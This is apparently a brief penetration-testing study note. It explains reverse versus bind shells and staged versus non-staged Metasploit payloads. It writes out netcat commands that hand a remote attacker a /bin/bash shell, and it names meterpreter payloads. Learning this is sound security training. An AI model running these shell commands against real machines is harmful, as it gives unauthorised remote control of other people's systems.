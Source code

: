 ### Reverse Shells vs Bind Shells

##### Reverse Shells
- victim connects to their attacker
```
$ nc -nvlp 4444
# listening on port

$ nc $ip_address 4444 -e /bin/bash
# getting the shell 
```


##### Bind Shell
- when an attacker connects to the target

```
$ nc -nvlp 4444 -e /bin/bash
#victim has the port open

$ nc $ip 4444
# connect on our end 
```


### Staged payloads vs non-staged payloads
##### Non-staged
- sends exploit shellcode all at one
- larger in size and won't always work
- eg windows/meterpreter_reverse_tcp

##### Staged
- send payloads in stages
- size is smaller
- can be less stable
- eg windows/meterpreter/reverse_tcp





### Exploitation with Metasploit

### Manual Exploitations

### SSH Brute Force Attacks
